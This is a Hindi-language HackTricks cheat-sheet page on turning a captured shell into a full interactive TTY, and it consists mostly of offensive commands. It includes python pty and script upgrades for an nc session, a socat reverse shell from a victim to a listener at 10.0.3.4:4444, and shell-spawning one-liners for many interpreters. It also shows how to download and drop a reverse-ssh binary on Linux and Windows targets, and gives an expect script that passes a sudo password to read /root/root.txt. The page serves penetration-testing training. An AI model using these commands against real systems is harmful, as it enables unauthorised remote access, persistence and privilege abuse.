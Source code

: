 # पूर्ण TTYs

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## पूर्ण TTY

ध्यान दें कि जिस शैल आप `SHELL` चर में सेट करते हैं, **उसे** _**/etc/shells**_ **में सूचीबद्ध होना चाहिए** या `SHELL` चर के लिए मान _**/etc/shells**_ फ़ाइल में नहीं मिला गया था इस घटना की सूचना दी गई है। इसके अलावा, ध्यान दें कि अगले स्निपेट्स केवल बैश में काम करते हैं। यदि आप zsh में हैं, तो शेल को प्राप्त करने से पहले `bash` चलाने के लिए बैश में बदलें।

#### Python

{% code overflow="wrap" %}
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

{% hint style="info" %}
आप **`stty -a`** को निष्पादित करके **पंक्तियों** और **स्तंभों** की **संख्या** प्राप्त कर सकते हैं।
{% endhint %}

#### स्क्रिप्ट

{% code overflow="wrap" %}
```bash
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

#### सोकैट
```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
### **शैल उत्पन्न करें**

* `python -c 'import pty; pty.spawn("/bin/sh")'`
* `echo os.system('/bin/bash')`
* `/bin/sh -i`
* `script -qc /bin/bash /dev/null`
* `perl -e 'exec "/bin/sh";'`
* perl: `exec "/bin/sh";`
* ruby: `exec "/bin/sh"`
* lua: `os.execute('/bin/sh')`
* IRB: `exec "/bin/sh"`
* vi: `:!bash`
* vi: `:set shell=/bin/bash:shell`
* nmap: `!sh`

## **रिवर्सएसएसएच**

**इंटरैक्टिव शैल एक्सेस**, साथ ही **फ़ाइल ट्रांसफ़र** और **पोर्ट फ़ॉरवर्डिंग** के लिए एक सुविधाजनक तरीका है, लक्षित पर एक स्थिर-लिंक्ड एसएसएच सर्वर [रिवर्सएसएसएच](https://github.com/Fahrj/reverse-ssh) को लक्षित पर छोड़ना।

नीचे एक उदाहरण है `x86` के लिए उपक्षिप्त बाइनरी के साथ। अन्य बाइनरी के लिए, [रिलीज़ पेज](https://github.com/Fahrj/reverse-ssh/releases/latest/) की जांच करें।

1. लोकली तैयारी करें ताकि एसएसएच पोर्ट फ़ॉरवर्डिंग अनुरोध को पकड़ सकें:
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -v -l -p 4444
```
{% endcode %}

* (2a) लिनक्स लक्ष्य:
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -p 4444 kali@10.0.0.2
```
{% endcode %}

* (2b) Windows 10 लक्ष्य (पूर्व संस्करणों के लिए, [परियोजना readme](https://github.com/Fahrj/reverse-ssh#features) देखें): 

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
certutil.exe -f -urlcache https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86.exe reverse-ssh.exe

reverse-ssh.exe -p 4444 kali@10.0.0.2
```
* यदि रिवर्स SSH पोर्ट फॉरवर्डिंग अनुरोध सफल रहा है, तो अब आपको `reverse-ssh(.exe)` चलाने वाले उपयोगकर्ता के संदर्भ में डिफ़ॉल्ट पासवर्ड `letmeinbrudipls` के साथ लॉग इन करने में सक्षम होना चाहिए:
```bash
# Interactive shell access
ssh -p 8888 127.0.0.1

# Bidirectional file transfer
sftp -P 8888 127.0.0.1
```
## कोई TTY नहीं

यदि किसी कारणवश आपको एक पूर्ण TTY प्राप्त नहीं हो सकता है, तो फिर भी आप **प्रोग्रामों के साथ बातचीत कर सकते हैं** जो उपयोगकर्ता इनपुट की अपेक्षा करते हैं। निम्नलिखित उदाहरण में, पासवर्ड `sudo` को फ़ाइल पढ़ने के लिए पारित किया जाता है:
```bash
expect -c 'spawn sudo -S cat "/root/root.txt";expect "*password*";send "<THE_PASSWORD_OF_THE_USER>";send "\r\n";interact'
```
{% hint style="success" %}
**AWS हैकिंग सीखें और अभ्यास करें:**<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
**GCP हैकिंग सीखें और अभ्यास करें:** <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स**](https://github.com/carlospolop/hacktricks) और [**हैकट्रिक्स क्लाउड**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}
